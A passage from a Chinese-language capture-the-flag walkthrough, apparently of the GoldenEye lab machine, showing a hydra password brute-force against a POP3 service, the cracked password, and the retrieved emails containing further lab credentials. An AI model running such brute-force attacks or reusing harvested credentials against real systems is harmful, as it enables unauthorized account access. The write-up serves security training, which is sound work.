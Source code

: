 第二封邮件说已经破解了 code，第三封邮件说有一个 access code 放在了/root 目录下。我们再次尝试破解 natalya 的 pop3 登陆密码：

```
hydra -t 20 -l natalya -P /usr/share/wordlists/fasttrack.txt pop3://192.168.10.150:55007/
```

得到登陆密码：

```
[55007][pop3] host: 192.168.10.150   login: natalya   password: bird
```

对 natalya 进行登陆，可以看到 2 封邮件，并查看其内容：

```
user natalya
+OK
pass bird
+OK Logged in.
stat
+OK 2 1679
list
+OK 2 messages:
1 631
2 1048
.

retr 1
+OK 631 octets
Return-Path: <root@ubuntu>
X-Original-To: natalya
Delivered-To: natalya@ubuntu
Received: from ok (localhost [127.0.0.1])
	by ubuntu (Postfix) with ESMTP id D5EDA454B1
	for <natalya>; Tue, 10 Apr 1995 19:45:33 -0700 (PDT)
Message-Id: <20180425024542.D5EDA454B1@ubuntu>
Date: Tue, 10 Apr 1995 19:45:33 -0700 (PDT)
From: root@ubuntu

Natalya, please you need to stop breaking boris' codes. Also, you are GNO supervisor for training. I will email you once a student is designated to you.

Also, be cautious of possible network breaches. We have intel that GoldenEye is being sought after by a crime syndicate named Janus.
.

retr 2
+OK 1048 octets
Return-Path: <root@ubuntu>
X-Original-To: natalya
Delivered-To: natalya@ubuntu
Received: from root (localhost [127.0.0.1])
	by ubuntu (Postfix) with SMTP id 17C96454B1
	for <natalya>; Tue, 29 Apr 1995 20:19:42 -0700 (PDT)
Message-Id: <20180425031956.17C96454B1@ubuntu>
Date: Tue, 29 Apr 1995 20:19:42 -0700 (PDT)
From: root@ubuntu

Ok Natalyn I have a new student for you. As this is a new system please let me or boris know if you see any config issues, especially is it's related to security...even if it's not, just enter it in under the guise of "security"...it'll get the change order escalated without much hassle :)

Ok, user creds are:

username: xenia
password: RCP90rulez!

```